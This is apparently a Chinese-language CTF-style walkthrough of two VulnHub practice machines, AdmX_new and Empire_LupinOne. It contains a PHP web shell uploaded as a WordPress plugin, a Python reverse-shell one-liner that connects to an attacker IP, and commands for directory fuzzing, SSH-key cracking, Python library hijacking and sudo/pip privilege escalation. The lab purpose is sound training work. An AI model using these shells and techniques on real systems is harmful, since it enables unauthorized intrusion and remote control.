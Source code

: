 # Vuln AdmX_new & Empire_LupinOne


## AdmX_new
### 靶场链接
https://download.vulnhub.com/admx/AdmX_new.7z
### 日常扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd5311e56b.png)
只有80端口开放，直接访问没什么东西，dirb扫描出来wordpress，访问看看，发现很慢，burp抓包发现重定向到192.168.159.145
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd52e24b43.png)
### getshell
wordpress的后台登陆在wp-login.php,爆破账号密码得到admin/adam14,进入后台第一时间想着图片马传上去，然后蚁剑连接，结果一直失败，后面发现可以传插件，打包成zip传上去

```
<?php
if(isset($_GET['cmd']))
        {
                system($_GET['cmd']);
        }

?>
```
尝试访问http://192.168.64.9/wordpress/wp-content/plugins/wordpress_getshell.php?cmd=id
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd530c78d5.png)
哎，可以执行，尝试python反弹shell
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd52e2272e.png)
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd531a572c.png)
### 提权
成功之后sudo -l看看文件执行权限，发现
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd52f147d6.png)
直接执行这个，
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd52e8c7a0.png)
成功拿到root

## Empire_LupinOne
### 靶场链接
https://www.vulnhub.com/entry/empire-lupinone,750/
### 扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd7a31fbbe.png)
访问80端口看看
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd7a18e13e.png)
一个图片，源码里面也什么都没有
dirb直接扫目录啥都没有，robots.txt里面有一个
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd7a049265.png)
但是访问这个页面又是一个404,在旧版本的Apache服务器中，~ 指代用户主目录，可以用fuzz进行测试
>wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.64.15/~FUZZ

扫描出来secret页面，
![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd7a3c06f4.png)
大概发现是有个账号，还缺一个密码，在这个下面继续探测
>wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  --hc 404,403 -u http://192.168.64.15/~secret/.FUZZ.txt

发现.mysecret.txt，访问一下
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd79f9cf8a.png)
### getshell
估计就是ssh的密钥，不过被简单的加密了，扔厨子里面，base58直接出来
返回kali，vim一个sshkey，扔进去，然后用join暴力破解
>/usr/share/john/ssh2john.py sshkey > hash
john --wordlist=/usr/share/wordlists/fasttrack.txt hash

得到密码P@55w0rd!
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd79fa58da.png)

### 提权
sudo -l看看
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd79fb94e6.png)
大概是自己写了个python库，然后这个python文件可以执行他，而且是另一个号的权限，那么就可以通过这个提权，
>find /usr/ -name '*webbrowser*'
/usr/lib/python3.9/webbrowser.py

![image-7.png](https://www.helloimg.com/i/2025/02/01/679dd7a33af38.png)
往里面写一个binsh试试（这个靶机怎么vim都没有啊啊）
![image-8.png](https://www.helloimg.com/i/2025/02/01/679dd7a5c037c.png)
执行之后确实提升权限了，但是还不是root，再来sudo -l一下，发现可以执行pip，直接pip提权
![image-9.png](https://www.helloimg.com/i/2025/02/01/679dd7a367e37.png)
这个时候就结束了
